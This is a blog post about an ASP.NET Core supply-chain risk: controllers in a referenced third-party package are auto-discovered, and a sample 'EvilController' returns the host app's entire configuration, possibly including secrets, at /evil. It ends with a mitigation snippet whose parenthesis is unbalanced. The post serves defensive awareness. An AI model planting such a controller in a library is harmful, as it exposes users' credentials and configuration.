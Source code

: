 ```yaml
---
layout: post
title:  "ASP.NET Core ApplicationPart & EvilController 😱"
date:   2019-12-16 20:40:00 +0100
tags: [C#,.NET Core,ASP.NET Core]
author: Miňo Martiniak
comments: true
---
```


Do you blindly trust third-party libraries?
What if this package contains e.g. following code and you reference it in your ASP.NET Core project?

```Csharp
[ApiController]
[Route("[controller]")]
public class EvilController : ControllerBase
{
    [HttpGet]
    public IEnumerable<KeyValuePair<string, string>> Get()
    {
        var configuration = HttpContext.RequestServices.GetService(typeof(IConfiguration)) as IConfiguration;

        return configuration.AsEnumerable().OrderBy(p => p.Key);
    }
}
```

If author (attacker) calls `your-site-url/evil`, than can get the following result:

![](https://gist.github.com/Burgyn/1fafbffcb737b4a73341ae2f7dd1626b/raw/ec45967614cb362c41aa4acd23afed8221e03d2a/EvilOutput.png)

> Of course the code in this controller can be more dangerous.

Do not believe? Try this [demo](https://github.com/Burgyn/Sample.EvilControllers).

## Surprising?

At first glance, yes. Documentation and blog posts say that if we want to add controllers from external assemblies, we need to add `ApplicationPart` by calling `mvcBuilder.AddApplicationPart(assembly);`.
But we do not call anything like this. So why is external `EvilController` discovered?

Answer is [AspNet Core build tooling](https://github.com/aspnet/AspNetCore-Tooling/pull/598) and [ApplicationPartAttribute](https://docs.microsoft.com/en-us/dotnet/api/microsoft.aspnetcore.mvc.applicationparts.applicationpartattribute?view=aspnetcore-3.0).

_AspNet Core build tooling_ discovers dependencies that reference MVC features _(in dependencies tree)_ and add them as `ApplicationPartAttribute` to your assembly _(during build time)_. When _ASP.NET Core_ application starts, it use the [ApplicationPartManger](https://github.com/aspnet/AspNetCore/blob/master/src/Mvc/Mvc.Core/src/ApplicationParts/ApplicationPartManager.cs) for adding external assembly as `ApplicationParts`. By default, `ApplicationPartManager` searches for `ApplicationPartAttribute`. That's why the package with `EvilController` is added as an `ApplicationPart` to your application.

## How to avoid it?

Do not use suspicious packages! 😊

Okay, but what if I don't want to study the external library in detail and still want to use it?

In this case, you can remove external application parts from your application. For example:

```CSharp
public void ConfigureServices(IServiceCollection services)
{
    services.AddControllers()
        .ConfigureApplicationPartManager(o =>
        {
            o.ApplicationParts.Clear();
            o.ApplicationParts.Add(new AssemblyPart(typeof(Startup).Assembly);
        });
}
```

## References

- [More info about ApplicationPart](https://docs.microsoft.com/en-us/aspnet/core/mvc/advanced/app-parts?view=aspnetcore-3.1)
